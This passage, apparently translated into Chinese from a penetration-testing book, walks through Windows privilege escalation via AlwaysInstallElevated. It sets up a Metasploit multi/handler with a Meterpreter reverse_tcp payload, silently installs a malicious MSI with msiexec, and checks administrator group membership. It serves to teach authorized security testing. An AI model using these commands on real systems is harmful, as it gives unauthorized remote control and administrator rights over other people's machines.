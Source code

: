     图 9.9 – Meterpreter – 上传自定义 MSI

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成此操作：

    `use /exploit/multi/handler`

1.  下一步是指定我们使用 MSFvenom 创建自定义 MSI 可执行文件时使用的有效载荷。可以通过运行以下命令来完成此操作：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置`LHOST`和`LPORT`选项，如下图所示：

    ![图 9.10 – Meterpreter 有效载荷选项    ](img/B17389_09_010.jpg)

    图 9.10 – Meterpreter 有效载荷选项

    在设置模块选项后，我们可以通过运行以下命令来启动监听器：

    `run`

    监听器将监听来自我们使用`MSFvenom`生成的自定义 MSI 可执行文件的任何传入连接。

1.  下一步是通过`msiexec`工具执行自定义的 MSI 可执行文件。可以通过在 Windows 命令行中运行以下命令来完成此操作：

    `msiexec /quiet /qn /i C:/temp/setup.msi`

    如果成功，这将在我们的监听器上生成一个提升的 Meterpreter 会话，如下图所示：

    ![图 9.11 – AlwaysInstallElevated Meterpreter 会话    ](img/B17389_09_011.jpg)

    图 9.11 – AlwaysInstallElevated Meterpreter 会话

1.  此过程还将把当前的标准用户添加到本地管理员组中。我们可以通过在 Windows 命令行中运行以下命令来确认这一点：

    `net localgroup administrators`
